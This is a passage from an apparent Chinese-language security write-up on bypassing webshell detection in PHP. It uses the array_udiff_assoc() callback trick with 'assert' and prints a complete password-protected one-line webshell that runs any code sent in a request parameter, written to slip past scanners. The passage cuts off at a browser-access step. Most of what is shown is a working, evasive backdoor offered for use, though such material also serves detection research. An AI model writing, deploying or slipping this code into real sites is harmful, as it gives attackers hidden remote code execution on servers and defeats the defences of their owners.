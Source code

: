 除此之外，**PHP扩展**中也有些合适的回调函数，不过可能通用性不强，本文不做讨论。

## 0x04：绕过传统检测

先拿披露过的array_udiff_assoc()函数构造一个免杀一句话。

函数定义：

```php
array array_udiff_assoc ( array $array1 , array $array2 [, array $... ], callable $value_compare_func )
```

根据定义，可以构造代码：

```php
array_udiff_assoc(array("phpinfo();"), array(1), "assert");
```

![执行成功](success-1.png)继续构造适合客户端连接的一句话木马脚本[array_udiff_assoc.php](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/php/array_udiff_assoc.php)：

```php
<?php
/**
* Noticed: (PHP 5 >= 5.4.0, PHP 7)
*
*/
$password = "LandGrey";
array_udiff_assoc(array($_REQUEST[$password]), array(1), "assert");
?>
```

浏览器访问
